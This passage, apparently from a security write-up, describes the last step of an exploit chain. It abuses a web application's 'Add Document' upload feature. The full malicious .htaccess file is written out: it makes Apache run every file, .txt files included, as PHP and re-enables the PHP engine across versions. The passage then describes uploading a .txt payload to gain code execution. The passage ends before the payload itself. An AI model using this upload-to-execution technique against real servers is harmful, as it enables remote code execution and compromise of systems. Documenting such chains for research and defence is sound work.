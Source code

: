 <figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Part 3 (leveraging feature _Add Document_) <a href="#part-3-leveraging-feature-add-document" id="part-3-leveraging-feature-add-document"></a>

The last step is the simplest, and is broken down into two sub-steps. The first is to upload a file in .htaccess format to leverage the Apache directives and allow .txt files to be interpreted by the PHP engine. The second is to upload a .txt file containing our payload.

File: .htaccess

```
<Files *>
  SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
  php_flag engine on
</IfModule>
<IfModule mod_php7.c>
  php_flag engine on
</IfModule>
<IfModule mod_php5.c>
  php_flag engine on
</IfModule>
```
